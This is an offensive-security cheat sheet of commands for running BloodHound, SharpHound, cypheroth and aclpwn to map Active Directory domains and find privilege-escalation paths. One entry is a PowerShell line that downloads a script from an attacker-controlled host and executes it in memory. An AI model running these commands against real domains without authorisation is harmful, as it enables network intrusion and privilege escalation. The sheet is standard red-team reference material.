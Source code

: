# bloodhound

% bloodhound, Active directory enumeration

## start neo4j server
#plateform/linux #target/serve #cat/UTILS
https://neo4j.com/docs/

```bash
sudo systemctl start neo4j
```

## bloodhound start IHM
#plateform/linux #target/local #cat/RECON
https://github.com/BloodHoundAD/BloodHound

```bash
bloodhound
```
## bloodhound - collect data proxychains
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c all --dns-tcp -ns <dns-ip> -dc <dc-name>

```

## bloodhound - collect data
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c all
```

## bloodhound - collect data (dns)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -ns <ip> -d <domain> -u <user> -p <password> -c all
```

## bloodhound - collect data (alternative)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -gc <global_catalog> -dc <domain_controler> -c all
```

## sharphound - collect bloodhound data
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
import-module sharphound.ps1
invoke-bloodhound -collectionmethod all -domain <domain>
```

## sharphound - collect bloodhound data download and execute
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## cypheroth - start
#plateform/linux #target/local #cat/RECON 
Toolset that runs cypher queries against Bloodhound's Neo4j backend and saves output to spreadsheets.

https://github.com/seajaysec/cypheroth

```bash
cypheroth -u <bh_user|neo4j> -p <bh_password|exegol4thewin> -d <domain>
```

## aclpwn - from computer to domain - dry run
#plateform/linux #target/local #cat/RECON 
Aclpwn.py is a tool that interacts with BloodHound to identify and exploit ACL based privilege escalation paths.

https://github.com/fox-it/aclpwn.py

```
aclpwn -f <computer_name> -ft computer -d <domain> -dry
```



